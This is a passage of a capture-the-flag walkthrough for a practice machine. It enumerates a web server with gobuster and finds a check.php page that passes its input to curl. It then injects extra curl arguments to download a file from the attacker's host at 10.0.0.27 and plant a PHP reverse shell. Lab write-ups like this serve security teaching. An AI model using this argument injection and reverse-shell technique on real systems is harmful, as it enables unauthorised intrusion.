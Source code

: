 
The text we got from the .wav file seems like a domain, let's add it to our **`/etc/hosts`** file and access it.

![image](https://user-images.githubusercontent.com/76552238/173345375-3910b38a-6acf-4aab-994f-0edc05d6f581.png)

An Intranet is a private, secure network used by employees for internal communication and information sharing.  
Let's scan the site for files and directories.

    root@kali ~/D/M/Sysadmin# gobuster dir -u http://sysadmin.intranet.hmv/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x txt,php,html

    /check.php            (Status: 200) [Size: 414]
    /index.html           (Status: 200) [Size: 122]

After going to **`http://sysadmin.intranet.hmv/check.php`** we have an input field

![image](https://user-images.githubusercontent.com/76552238/173353351-a7342f2c-d95b-4b92-9cc0-c850347bedcf.png)

It seems that it gives use the content of a file or website we enter in the input field.  
For example, if we enter **`https://10.0.0.23`**, we get default page of apache2.

![image](https://user-images.githubusercontent.com/76552238/173354406-9e43d4a4-54ad-4d85-965f-2711ac673756.png)

If we enter no text into the input field we can see that the script is using the **`curl`** command.

![image](https://user-images.githubusercontent.com/76552238/173354822-3029f6f0-db1c-42fc-8eec-6b05fd845798.png)

Let's try to exploit the **`curl`** command to get a reverse shell on the remote machine.

---

## #2 Weaponization

According to the curl manual page, **`curl`** is a tool for transferring data from or to a server. The command is designed to work without user interaction.
We can download a file from our local server to the remote server and run it using the **`check.php`** page.  
Let's test this by creating a **`test.txt`** file on **`/var/www/html`** on our local machine and try to download it by abusing the input field in the **`check.php`** page.  
Using the **`-O`** operation, **`curl` ** can save files on the current machine.  

So on the remote server, we enter **`http://10.0.0.27/test.txt -o test.txt`** in the input field.

![image](https://user-images.githubusercontent.com/76552238/173389627-4512d914-0483-4d35-9d6b-30890b227331.png)

We can then access the file by going to **`http://sysadmin.intranet.hmv/test.txt`**.

![image](https://user-images.githubusercontent.com/76552238/173390411-25abebf7-20a3-4266-a734-940926364fd2.png)

So now we know we can upload a [**Reverse Shell Script**][2] to the remote server and get a shell.

### ***Remote Machine:***
Entering **`http://10.0.0.27/php-reverse-shell.php -O`** in the input field and then going to **`http://sysadmin.intranet.hmv/php-reverse-shell.php`** we get a reverse shell on the remote machine (See below).


[1]: https://morsecode.world/international/decoder/audio-decoder-adaptive.html "Morse Code Adaptive Audio Decoder"
[2]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php "Github: pentestmonkey's Php Reverse Shell"
[3]: https://gtfobins.github.io/gtfobins/find/ "gtfobins: Find Command Privilege Escalation"
[4]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS "Github: LinPeas"